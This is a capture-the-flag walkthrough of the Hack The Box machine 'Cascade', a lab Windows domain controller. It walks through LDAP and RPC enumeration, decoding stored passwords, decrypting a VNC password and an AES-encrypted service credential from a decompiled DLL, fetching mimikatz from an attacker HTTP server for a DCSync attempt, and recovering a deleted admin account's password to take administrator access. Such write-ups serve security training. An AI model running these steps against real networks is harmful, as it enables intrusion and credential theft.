

# HACK THE BOX : CASCADE


## Initial Recon

Perform the initial recon :

```
sudo nmap -sS -sC -sV 10.10.10.182 > rec_ini
```


Let the all_ports scan run in background.

```
sudo nmap -p- -T5 10.10.10.182 > all_ports
```

Doing the all ports scan, reveals only the port 53.


## Checking the ldap


I performed the ldapsearch :

```
ldapsearch -h 10.10.10.182
```

This asks for the MD5 authentication 


Adding -x flag will skip the MD5 authentication.

```
ldapsearch -h 10.10.10.182 -x
```

This will do the simple authentication.

```
ldapsearch -h 10.10.10.182 -x -s base namingcontexts
```

This will give the naming contexts.


So we know that the DC for the box is `cascade`

Check the naming context :

```
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local"
```


Direct the output into a file :

```
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" > ldap.out
```

Try dumping the things with only object class people.

```
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=Person)'
```

We get the following interesting accounts : 

1) Guest account as -----> CascGuest</br>
2) Name of the Domain Controller --------> CASC-DC</br>
3) Steve Smith : sAMAccount name -> s.smith , UserPrincipalName ----> s.smith@cascade.local</br>
4) Other sAMAccounts as well. Need to filter them out.</br>
5) BackupSVC ---> The service account. sAMAccountName ---> BackupSvc . PrincipalName---> BackupSvc@cascade.local


Need to filter out only the usernames.

```
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=User)' sAMAccountName | grep sAMAccountName
```

This will filter out the sAMAccount Names 


```
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.ldap
```

To store only the usernames in the file.

Got another Service Account ------>  **arksvc**


Delete the default usernames, i.e 

```
requesting:
CascGuest
CASC-DC1$
```

## Checking Null Authentication


Before doing anything with the usernames, I thought of doing little more recon. Trying null authentication on the rpcclient.

```
rpcclient -U '' 10.10.10.182
```


```
enumdomusers
```

This shows us that there is NULL authentication in the box.</br>
This gives us all the users along with the service users as well.

```
rpcclient $> queryusergroups 0x452                                                                                                                                                             
        group rid:[0x201] attr:[0x7]                                                                                                                                                           
rpcclient $> queryuser 0x201
result was NT_STATUS_NO_SUCH_USER
```

So I tried to lookup the names.

```
rpcclient $> lookupnames arksvc
arksvc S-1-5-21-3332504370-1206983947-1165150453-1106 (User: 1)

rpcclient $> queryuser 1106
        User Name   :   arksvc
        Full Name   :   ArkSvc
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 29 Jan 2020 16:05:41 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Thu, 09 Jan 2020 11:18:20 EST
        Password can change Time :      Thu, 09 Jan 2020 11:18:20 EST
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x452
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x0000000d
        padding1[0..7]...
        logon_hrs[0..21]...
```

This will give us information about the user we want. We can use this to find out information about the users we want.


## Trying to get NP users 


Since, I have the usernames list, I can try to check the user who not require Kerberos Pre-Authentication.

```
GetNPUsers.py -dc-ip 10.10.10.182 -no-pass -request 'cascade.local/' -usersfile users.ldap
```


Some of the uses have their credentials revoked and others do not have kerberos no pre-auth set.


## Going back to the user dump


Use the following to refer to different types of ldap searches.

https://docs.oracle.com/cd/E19450-01/820-6169/ldapsearch-examples.html

After looking at different dumps of the ldapsearch, I tried looking for passwords and stuff which might be there present in the dump.

```
dapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" | grep -i pwd
```

This gives me the cascadeLegacyPwd


Look for the related username in the whole dump. Better store it in a file and look for it using less.


This shows that the password is for the user Ryan Thompson. Therefore the creds are :

```
echo clk0bjVldmE= | base64 -d

r.thompson : rY4n5eva 
```

Let's try using evil-winrm with this credential.

```
evil-winrm -u r.thompson -p rY4n5eva -i 10.10.10.182
```

This fails.


## Trying the smbserver with the creds


Trying to list the smb shared directories with the above creds, gives us the listed directories

```
smbclient -L //10.10.10.182 -U r.thompson
```


Try mounting the Data directory 

```
sudo mount -t cifs //10.10.10.182/Data /mnt/data/ -o username=r.thompson,password=rY4n5eva
```

In the IT/Temp directory, there are two users found:

```
/mnt/data/IT/Temp]
└──╼ $ls -l
total 0
drwxr-xr-x 2 root root 0 Jan 28 17:06 r.thompson
drwxr-xr-x 2 root root 0 Jan 28 15:00 s.smith
```

In the folder for s.smith, there is a file called, 'VNC Install.reg' which contains a password in hex :


```
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

This cannot be directly represented in the ASCII form. Therefore, convert it to base64.

Use the following to convert it to base64 

```
import codecs

hex = "10000000000002ae"
b64 = codecs.encode(codecs.decode(hex, 'hex'), 'base64').decode()
print(b64)
```

The base64 is : `a88qS25ayg8=`

I found out that the password is a VNC password, and it can be decrypted using a VNC password decryptor.

Found a Github repository which can decrypt the VNC password.

[VNC password decryptor](https://github.com/jeroennijhof/vncpwd)

```
git clone https://github.com/jeroennijhof/vncpwd

cd vncpwd/

make
```

```
echo -n a88qS25ayg8= | base64 -d > pass
./vncpwd pass
```


Therefore, we got the creds for s.smith :

```
s.smith : sT333ve2
```


## Trying to login as s.smith


Since, we were able to list the folder of s.smith, we can now try to login using this credentials using evil-winrm.


```
evil-winrm -u s.smith -p sT333ve2 -i 10.10.10.182
```


This gives us the user.txt


## Root


Listing in the arksvc folder is blocked.

## Enumerating for privesc vectors 

Running winpeas.exe


```
.\winpeas.exe
```

Some autologon credentials were found.

```
 DefaultDomainName             :  CASCADE 
 DefaultUserName               :  vbscrub 
```

But no passwords.


Mount the NETLOGON drive on the smbshare. There you'll find a couple of VB scripts. If you cat out the VB scripts. You'll find that they are actually pointing towards the Audit$ path. 


So I mounted the Audit$ drive and found out a couple of DLL files and an exe.


Running rabin2 tells me that the exe is written in CIL that is C# in this case.

Also, if you check the file RunAudit.bat, you'll find that it is running the CascAudit.exe binary and storing it in the Audit.db.

```
cat RunAudit.bat
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

There is also Audit.db file which can be checked using strings.</br>Move te exe files and the db file to your working direcotory. Need to use Windows for the Reverse Engineering.

Need sqlitebrowser for checking the .db file.


In the sqlitebrowser, an interesting base64 encoded string will be found.


```
ArkSvc : BQO5l5Kj9MdErXx6Q6AGOw== : cascade.local
```


## Reverse Engineering the Binaries


Use dnspy to decompile the binary. Go to the main function.
It uses the  sqlite server to get the username and password from the database. Then it uses the DecryptString function, to decrypt the password using the key : `c4scadek3y654321`

**main_function**


Then it stores the password in the Audit.db

### Checking the Crypto class and the DecryptString function

The Crypto class is present in the CascCrypto.dll file. This tells us that the function DecryptString, as well as the EncryptString is imported from the CascCrypto.dll. 

**crypto_class**



It can be seen that a aes encryption is performed in the EncryptString function with the IV : `1tdyjCbY1Ix49842` </br>
and the key as given above.</br>

Then it is base64 encoded and stored into an array.

This code can be reverse engineered to get us the Decrypted String. Since this program tries to access the sqlite server to get the username and password, we cannot use it to decrypt our string.


### Source code for the Crypto Module

```
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

namespace CascCrypto
{
	// Token: 0x02000007 RID: 7
	public class Crypto
	{
		// Token: 0x06000012 RID: 18 RVA: 0x00002290 File Offset: 0x00000690
		public static string EncryptString(string Plaintext, string Key)
		{
			byte[] bytes = Encoding.UTF8.GetBytes(Plaintext);
			Aes aes = Aes.Create();
			aes.BlockSize = 128;
			aes.KeySize = 128;
			aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
			aes.Key = Encoding.UTF8.GetBytes(Key);
			aes.Mode = CipherMode.CBC;
			string result;
			using (MemoryStream memoryStream = new MemoryStream())
			{
				using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateEncryptor(), CryptoStreamMode.Write))
				{
					cryptoStream.Write(bytes, 0, bytes.Length);
					cryptoStream.FlushFinalBlock();
				}
				result = Convert.ToBase64String(memoryStream.ToArray());
			}
			return result;
		}

		// Token: 0x06000013 RID: 19 RVA: 0x00002360 File Offset: 0x00000760
		public static string DecryptString(string EncryptedString, string Key)
		{
			byte[] array = Convert.FromBase64String(EncryptedString);
			Aes aes = Aes.Create();
			aes.KeySize = 128;
			aes.BlockSize = 128;
			aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
			aes.Mode = CipherMode.CBC;
			aes.Key = Encoding.UTF8.GetBytes(Key);
			string @string;
			using (MemoryStream memoryStream = new MemoryStream(array))
			{
				using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Read))
				{
					byte[] array2 = new byte[checked(array.Length - 1 + 1)];
					cryptoStream.Read(array2, 0, array2.Length);
					@string = Encoding.UTF8.GetString(array2);
				}
			}
			return @string;
		}

		// Token: 0x04000006 RID: 6
		public const string DefaultIV = "1tdyjCbY1Ix49842";

		// Token: 0x04000007 RID: 7
		public const int Keysize = 128;
	}
}
```

You can either create your own binary with this code extracted from CascCrypto.dll or use an online AES decryptor or write a script in python to do the same

We have the following :

```
Encrypted Password : BQO5l5Kj9MdErXx6Q6AGOw==

Key 				   : c4scadek3y654321

IV 				   : 1tdyjCbY1Ix49842
```

Then I went on to reverse engineer the decryption algorithm and got the password : 


We have the following creds for the service account : 

```
arksvc : w3lc0meFr31nd
```

Use evil-winrm to get into the service account.

```
evil-winrm -u arksvc -p w3lc0meFr31nd -i 10.10.10.182
```


## Trying DCSync using mimikatz


To get mimkatz to the server use python http server and WebRequest on the target box :

On your box run : 

```
sudo python3 -m http.server 80
```

On the target box :

```
Evil-WinRM* PS C:\Users\arksvc\Documents> $url = "http://10.10.14.32/mimikatz.exe"
*Evil-WinRM* PS C:\Users\arksvc\Documents> $outpath = "C:\Users\arksvc\Documents\mimikatz.exe"

C:\Users\arksvc\Documents> Invoke-WebRequest -Uri $url -OutFile $outpath

.\mimikatz.exe "lsadump::dcsync /user:Administrator" exit                                                                                                

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
ERROR kull_m_busylight_devices_get ; SetupDiGetClassDevs (0x0000000d)

mimikatz(commandline) # lsadump::dcsync /user:Administrator
[DC] 'cascade.local' will be the domain
[DC] 'CASC-DC1.cascade.local' will be the DC server
[DC] 'Administrator' will be the user account
ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x000020f7 (8439)

mimikatz(commandline) # exit
Bye!
```


This shows that the DCSynce command wont work on this.


Run winPEAS : 

```
<Password>*SENSITIVE*DATA*DELETED*</Password>     <Enabled>true</Enabled>      <Username>vbscrub</Username>     </AutoLogon>    <UserAccounts>     <LocalAccounts>      <LocalAccount wcm:action="add">       <Password>*SENSITIVE*DATA*DELETED*</Password>
```

Seems like some passwords were there in the `C:\Windows\Panther\Unattend.xml` but they were deleted.

So I looked for how to dump deleted data in active directory using service account.

The following link I got. 

https://www.lepide.com/how-to/restore-deleted-objects-in-active-directory.html

Running the following command on powershell :

```
Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" –IncludeDeletedObjects
```

gives us the list of deleted accounts.


The following is the only user account that was deleted, while others were containers.

```
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

`Get-ADObject -Filter {displayName -eq "TempAdmin"} IncludeDeletedObjects`

This gives us the specific object we want to view. However, to view the particular property refer to the Microsoft Documentation of the Get-ADObjects command.

```
Get-ADObject
   [-AuthType <ADAuthType>]
   [-Credential <PSCredential>]
   [-Identity] <ADObject>
   [-IncludeDeletedObjects]
   [-Partition <String>]
   [-Properties <String[]>]
   [-Server <String>]
   [<CommonParameters>]
```

Let's try to view the password property.

```
Get-ADObject -Filter {displayName -eq "TempAdmin"} IncludeDeletedObjects -Properties password
```

```
At line:1 char:1
+ Get-ADObject -Filter {displayName -eq "TempAdmin"} -IncludeDeletedObj ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (:) [Get-ADObject], ArgumentException
    + FullyQualifiedErrorId : One or more properties are invalid.
Parameter name: password,Microsoft.ActiveDirectory.Management.Commands.GetADObject
```

It means that there is no property called password. However, if we use a * for the properties, it will view all the properties for the selected object.

```
Get-ADObject -Filter {displayName -eq "TempAdmin"} -IncludeDeletedObjects -Properties * 
```


Here we see that there is a cascade Legacy password, just like we had found previously.

```
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```

We can also get this property only, so that the password is shown.

```
Get-ADObject -Filter {displayName -eq "TempAdmin"} -IncludeDeletedObjects -Properties cascadeLegacyPwd


cascadeLegacyPwd  : YmFDVDNyMWFOMDBkbGVz
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

Base64 decode the password and we get the following.

```
echo -n YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

There we can try the credentials : 

```
adiminitrator : baCT3r1aN00dles
```

```
evil-winrm -u administrator -p baCT3r1aN00dles -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


